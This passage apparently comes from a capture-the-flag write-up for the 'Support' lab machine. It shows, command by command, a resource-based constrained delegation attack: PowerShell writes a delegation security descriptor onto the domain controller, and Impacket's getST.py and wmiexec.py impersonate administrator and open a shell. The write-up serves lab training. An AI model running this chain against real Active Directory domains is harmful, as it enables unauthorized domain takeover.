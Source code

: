![](/images/support/support7.png)

Now we want to get the `SID` of the machine.

Command:
`get-domaincomputer fake69`

Now we copy that `SID` into out command below.

Commands:
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SIDHERE>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Now we can request a ticket from our fake machine. The blog that outlines this attack is a Windows machine so if you're not using `Commando VM` then you can use `impacket`.

Command:
`./getST.py support.htb/FAKE69:123456 -impersonate administrator -spn www/dc.support.htb`

![](/images/support/support8.png)

Now we need to `export` the `administrator.ccache` value to our local variables.

Command:
`export KRB5CCNAME=administrator.ccache`

Now we can use `wmiexec.py` to get a Administrator shell.

Command:
`/wmiexec.py support.htb/administrator@dc.support.htb -no-pass -k`

![](/images/support/support9.png)

Now we have an Administrator shell. We can head over to the `Desktop` folder and snag the `root.txt` flag!

Another system down!